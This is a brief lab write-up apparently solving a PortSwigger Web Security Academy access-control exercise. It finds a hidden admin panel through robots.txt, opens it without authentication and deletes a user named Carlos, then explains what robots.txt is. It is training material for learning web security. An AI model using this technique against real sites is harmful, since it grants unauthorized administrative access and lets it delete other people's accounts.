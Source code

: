 
# Lab: Unprotected admin functionality
# https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/access-control-apprentice/access-control/lab-unprotected-admin-functionality#


```bash
# Go to:
https://0a230049043ea7aa8abbe9de00bf0044.web-security-academy.net/robots.txt

# Response:

User-agent: *
Disallow: /administrator-panel

```
```bash
# Go to:
https://0a230049043ea7aa8abbe9de00bf0044.web-security-academy.net/administrator-panel

# Delete Carlos to solve the lab.

```

```bash

# robots.txt is a simple text file placed at the root of a website that tells web crawlers (robots) which pages or files the crawler can or cannot request from the site.
# It is part of the Robots Exclusion Protocol (REP), a group of web standards that regulate how robots crawl the web, access, and index content, and serve that content to users.
```
